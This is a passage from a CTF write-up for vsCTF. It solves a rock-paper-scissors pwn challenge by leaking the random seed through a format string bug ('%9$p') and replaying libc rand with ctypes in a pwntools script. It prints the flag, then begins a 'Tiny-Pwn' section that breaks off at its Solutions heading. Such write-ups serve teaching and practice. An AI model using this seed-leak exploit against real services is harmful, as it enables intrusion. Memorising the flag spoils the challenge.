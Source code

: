 It uses a random seed through `/dev/urandom`, but we can leak the seed. The code is vulnerable for FSB. After then, using ctypes module in python, we can imitate the return value of `rand` function of server.

`rps` is just a function that checks whether the user's input is correct or not based on the return value of `rand`.

```py
from pwn import *
from ctypes import *

def getAnswer():
    choice = 'rps'
    return choice[(r.rand() + 1) % 3].encode()

r = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
if args.REMOTE:
    p = remote('vsc.tf', 3094)
else:
    p = process('./rps', aslr=0)
payload = b'%9$p'
p.sendlineafter(b": ", payload)
rand = int(p.recvline()[3:], 16) & 0xFFFFFFFF
log.success(f"rand @ {hex(rand)}")

r.srand(rand)
for _ in range(50):
    p.sendlineafter(b": ", getAnswer())

p.interactive()
```

`vsctf{Wh4t_da_h3ck_br0_gu355_g0d_kn0ws_4ll_my_m0v3s_:(((}`

## **Tiny-Pwn**

---

### **[0x00] Description**

> Recently the GOAT unvariant taught me how to ELF golf. I was so proud of what I made I wanted to show the whole world. But go easy on him... he's just a child.
> 
> Author: Rench
> 
> 71 solves

### **[0x01] Summary**

Shell coding in code-golfed (very short) i386 binary

### **[0x02] Solutions**
